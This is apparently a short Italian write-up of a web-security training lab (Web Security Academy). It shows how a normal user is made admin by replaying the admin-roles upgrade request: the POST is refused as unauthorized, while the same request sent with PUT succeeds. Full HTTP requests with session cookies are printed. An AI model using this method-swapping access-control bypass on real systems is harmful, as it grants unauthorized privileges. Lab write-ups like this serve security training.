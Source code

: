 la richiesta che ha upgradato `wiener` ad utente admin è questa:

```http
POST /admin-roles HTTP/2
Host: 0ae300fb03a213d08011d0df00aa0020.web-security-academy.net
Cookie: session=oS3v9gT82bjREkpOGzVZtVUW2NDFhaur
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT
Upgrade-Insecure-Requests: 1
Origin: https://0ae300fb03a213d08011d0df00aa0020.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae300fb03a213d08011d0df00aa0020.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=wiener&action=upgrade
```

mentre ero loggato come `wiener`, facendo la stessa post, ho ottenuto "unauthorized"

```bash
POST /admin-roles HTTP/2
Host: 0ae300fb03a213d08011d0df00aa0020.web-security-academy.net
Cookie: session=Njp8JdDF6DATJ56FCii3RLaB9TFQk9oY
..
...
..
username=wiener&action=upgrade
```

(ovviamente il cookie è diverso)

risposta:

```bash
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

è bastato rifare la stessa richiesta con PUT e ha funzionato



